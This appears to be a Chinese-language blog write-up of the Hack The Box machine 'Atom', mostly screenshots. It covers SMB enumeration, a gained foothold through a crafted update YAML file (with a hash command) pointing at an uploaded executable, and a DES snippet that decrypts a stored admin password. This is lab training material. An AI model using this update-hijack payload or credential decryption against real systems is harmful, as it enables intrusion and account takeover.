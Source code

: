 +++
ShowToc = true
TocOpen = true
title = '0X033 Atom'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE8b12b40668a685aaf03708f82a1327faimage.png)

![](/htb_img/WEBRESOURCE838d3d2c7c7be70a575948e081b49644image.png)

![](/htb_img/WEBRESOURCEf47224e81e57676fb1dc66b138668843image.png)

# 获取立足点

从端口开放情况来看，值得关注的点有：smb、redis、5985、80、443

先看smb:

![](/htb_img/WEBRESOURCEf0126d08eed606a7b2849f6baa4b2eb1image.png)

这里的内容，似乎在说，把程序放在这个目录，会自动运行：

![](/htb_img/WEBRESOURCE83261bfc23c13a3b3e76b0efea015b67image.png)

创建者Pages

![](/htb_img/WEBRESOURCEa81fdd7469055ca0d7cfaa9467a380b7image.png)

看看redis呢：

好像不行，没有未授权：

![](/htb_img/WEBRESOURCE8fc7da8c0119ea9131f9d3f0407ce0cfimage.png)

web方面，443和80页面一样：

发现文件，下载：

![](/htb_img/WEBRESOURCE4dda52a834bc2cb9dab0160b6a02b2b1image.png)

smb确实有写入权限：

![](/htb_img/WEBRESOURCE7924124077b02f05625e98a0b4b4984bimage.png)

程序看起来没有什么特别的，逆向看看把：

好像没逆向出来，有点尴尬：

![](/htb_img/WEBRESOURCE489df158a57e08c89bb85f55c6b06d6bimage.png)

抓包看看了：

发现dns查询，添加hosts抓取tun0：

![](/htb_img/WEBRESOURCE06ea8bc4271baa0819b7b662b66ad474image.png)

然后大概了解一下，程序通过访问目标上的yml文件，然后根据yml文件的内容，来尝试更新软件，然后结合刚刚PDF的内容，我们可以上传一个yml文件，指向我们的exe程序，就可以尝试getshell了：

计算一下值：

sha512sum "8'889.exe" | cut -d ' ' -f1 | xxd -r -p | base64 -w0

jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==

![](/htb_img/WEBRESOURCEc521913fef8b1266a49fa85f4714dfd3image.png)

yml文件内容如下：

```
version: 1.0.1
files:
 - url: 8'889.exe
   sha512: jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==
   size: 73802
path: 8'889.exe
sha512: jJ7y5xvMF62HF3VmIQOFMpTogFyyYLl04zditACTK5L0j9CMQRHaC7OuI0mWeRI09tE0zOMTKienCmBNJqn+fA==
```

上传上去：

![](/htb_img/WEBRESOURCE26c3e9d4e1f57f30832dbd954920d0b7image.png)

运行程序，稍等一会儿：

![](/htb_img/WEBRESOURCEc44dd7574a28995b6aca1df949a99887image.png)

# 提权

看起来不像是很容易提权的样子：

![](/htb_img/WEBRESOURCEd87c5953c66172c492b88382609a47c1image.png)

winpess也没有什么有效的内容：

![](/htb_img/WEBRESOURCE3dacc565a5b978b60081a72f9966c6e7image.png)

只能接着信息收集了：

读取redis密码：

![](/htb_img/WEBRESOURCE9371a9290cdc932383fd611ed2f26509image.png)

可以登录：

![](/htb_img/WEBRESOURCEe23718bcc883ec29c5825c7d37df5453image.png)

发现密码，这是[https://www.exploit-db.com/exploits/49409](https://www.exploit-db.com/exploits/49409)进行解密：

![](/htb_img/WEBRESOURCE259b26d1e0869ce372c25a66d3afca33image.png)

[kidvscat_admin_@123](http://kidvscat_admin_@123)

```
>>> import base64
>>> from des import *
>>> hash = base64.b64decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'.encode('utf-8'))
>>> key = DesKey(b"7ly6UznJ")
>>> print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
kidvscat_admin_@123
```

![](/htb_img/WEBRESOURCEfb544a44d67f6d0fb952805d848be0a7image.png)

![](/htb_img/WEBRESOURCEdf522e2408c893059524363c09e1a52eimage.png)